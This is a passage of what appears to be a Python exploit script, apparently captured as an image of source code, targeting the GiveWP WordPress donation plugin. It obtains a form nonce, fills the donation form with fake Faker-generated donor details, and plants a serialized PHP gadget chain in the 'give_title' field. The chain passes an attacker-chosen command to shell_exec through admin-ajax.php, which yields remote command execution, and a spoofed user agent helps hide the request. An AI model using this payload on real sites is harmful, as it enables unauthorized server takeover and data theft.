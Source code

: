 ```python
        }
        response = requests.post(reqUrl, data=data)
        if response.status_code == 200: 
            json_data = response.json()
            nonce = json_data['data']
            print(f"[+] Nonce Found!! {nonce}")
            return nonce
        else:
            print(f"[-] HTTP Request Failed: {response.status_code}")
            exit(1)

    def getParams(self) -> dict:
        give_form_hash = self.getNonce()
        give_form_id = self.formId
        # Can be modified, form's first price's id =0, amount = price
        give_price_id = "0"
        give_amount = "10"

        # Fake Userinfo
        fake = Faker()
        params = {"give-form-id" : give_form_id, 
                  "give-form-hash" : give_form_hash, 
                  "give-price-id" : give_price_id,
                  "give-amount" : give_amount,
                  "give_first": fake.first_name(),
                  "give_last": fake.last_name(),
                  "give_email": fake.email()}
        return params


    def getData(self) -> dict:
        cmd = self.cmd
        payload = '\\O:19:"Stripe\\\\\\\\StripeObject":1:{s:10:"\\0*\\0_values";a:1:{s:3:"foo";O:62:"Give\\\\\\\\PaymentGateways\\\\\\\\DataTransferObjects\\\\\\\\GiveInsertPaymentData":1:{s:8:"userInfo";a:1:{s:7:"address";O:4:"Give":1:{s:12:"\\0*\\0container";O:33:"Give\\\\\\\\Vendors\\\\\\\\Faker\\\\\\\\ValidGenerator":3:{s:12:"\\0*\\0validator";s:10:"shell_exec";s:12:"\\0*\\0generator";O:34:"Give\\\\\\\\Onboarding\\\\\\\\SettingsRepository":1:{s:11:"\\0*\\0settings";a:1:{s:8:"address1";s:%d:"%s";}}s:13:"\\0*\\0maxRetries";i:10;}}}}}}' % (len(cmd), cmd)
        data = self.getParams()
        data['give_title'] = payload
        data['give-gateway'] = 'offline'
        data['action'] = 'give_process_donation'
        print(f"[+] Requested Data: ")
        print(data)
        return data
        
    def sendRequest(self) -> None:
        # Fake User_Agent
        fake = Faker()
        baseUrl = self.getBaseUrl(self.url)
        reqUrl = f"{baseUrl}/wp-admin/admin-ajax.php"
        data = self.getData()
        headers = {
            'User-Agent': fake.user_agent(),
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'Accept-Encoding': 'gzip, deflate, br'
        }
        response = requests.post(reqUrl, data=data, headers=headers)

    def exploit(self) -> None:
        self.sendRequest()

# argument parsing with rich_click
```